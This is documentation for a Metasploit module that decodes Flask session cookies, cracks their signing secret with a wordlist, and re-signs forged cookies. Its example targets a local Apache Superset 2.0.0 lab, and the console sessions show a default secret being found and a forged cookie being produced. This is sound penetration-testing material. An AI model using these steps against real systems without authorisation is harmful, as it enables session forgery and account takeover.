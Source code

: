 ## Vulnerable Application

This is a generic module which can manipulate Python Flask-based application cookies.
The Retrieve action will connect to a web server, grab the cookie, and decode it.
The Resign action will do the same as above, but after decoding it, it will replace
the contents with that in NEWCOOKIECONTENT, then sign the cookie with SECRET. This
cookie can then be used in a browser. This is a Ruby based implementation of some
of the features in the Python project Flask-Unsign.

### Example Application

Apache Superset can be used since it is based on Flask.

```
sudo docker run -p 8088:8088 --name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin
sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/python_flask_cookie_signer`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should get a decoded cookie

## Actions

### Retrieve

Retrieve a cookie from an HTTP(s) server

### FindSecret

Using the provided wordlist, find the secret key used to sign the cookie

### Resign

Resign the specified cookie data

## Options

### TARGETURI

The URI which gives a cookie. Redirects are NOT followed.

### NEWCOOKIECONTENT

When action is set to `Resign`, the content of the decoded cookie will be replaced with this content.

### SECRET

When action is set to `Resign`, the cookie is signed with this secret.

### SECRET_KEYS_FILE

When action is set to `FindSecret`, a file containing secret keys to try. One per line. Defaults to `metasploit-framework/data/wordlists/flask_secret_keys.txt`

## Scenarios

### Apache Superset 2.0.0

#### Grab the cookie to make sure its a valid cookie that can be decoded. (Retrieve)

```
msf > use auxiliary/gather/python_flask_cookie_signer
msf auxiliary(gather/python_flask_cookie_signer) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf auxiliary(gather/python_flask_cookie_signer) > set RPORT 8088
RPORT => 8088
msf auxiliary(gather/python_flask_cookie_signer) > set TARGETURI /login
TARGETURI => /login
msf auxiliary(gather/python_flask_cookie_signer) > run
[*] Running module against 192.168.159.128

[*] 192.168.159.128:8088 - Retrieving Cookie
[*] 192.168.159.128:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiZDU2N2U1ZDJmYmU1NDIyOTRlMzFhODU5YWFiMjQ5MTcwMDcyNTNhMyIsImxvY2FsZSI6ImVuIn0.ZPoc7Q.y_slNhIvS7PDX1gKMYpBS1nW0L0
[*] 192.168.159.128:8088 - Decoded Cookie: {"csrf_token"=>"d567e5d2fbe542294e31a859aab24917007253a3", "locale"=>"en"}
[*] Auxiliary module execution completed
```

#### Determine the secret key (FindSecret)

```
msf auxiliary(gather/python_flask_cookie_signer) > set action FindSecret
action => findsecret
msf auxiliary(gather/python_flask_cookie_signer) > run
[*] Running module against 127.0.0.1

[*] 127.0.0.1:8088 - Retrieving Cookie
[*] 127.0.0.1:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiZjNlMjU1MzBkZWNkYjE4YzRkYWMxMTQzODgyYjg1ODlmMWM3YzFjYyIsImxvY2FsZSI6ImVuIn0.ZP9b0w.PjZZJJ1lSiUQPacotJV0zbxX3fU
[+] 127.0.0.1:8088 - Found secret key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] Auxiliary module execution completed
```

#### Sign a new cookie (Resign)

```
msf auxiliary(gather/python_flask_cookie_signer) > set NEWCOOKIECONTENT '{"csrf_token"=>"08e51dd1f352d6790e6ab9b99dadd621602b9189", "locale"=>"fr"}'
NEWCOOKIECONTENT => {"csrf_token"=>"08e51dd1f352d6790e6ab9b99dadd621602b9189", "locale"=>"fr"}
msf auxiliary(gather/python_flask_cookie_signer) > set SECRET CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
SECRET => CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
msf auxiliary(gather/python_flask_cookie_signer) > set ACTION Resign
ACTION => Resign
msf auxiliary(gather/python_flask_cookie_signer) > run
[*] Running module against 192.168.159.128

[*] Attempting to sign with key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[+] 192.168.159.128:8088 - New signed cookie: session=IntcImNzcmZfdG9rZW5cIj0-XCIwOGU1MWRkMWYzNTJkNjc5MGU2YWI5Yjk5ZGFkZDYyMTYwMmI5MTg5XCIsIFwibG9jYWxlXCI9PlwiZnJcIn0i.ZPodFA.4hA6OiYpdxAUoOsA9L7DMTVOZkI
[*] Auxiliary module execution completed
msf auxiliary(gather/python_flask_cookie_signer) >
```
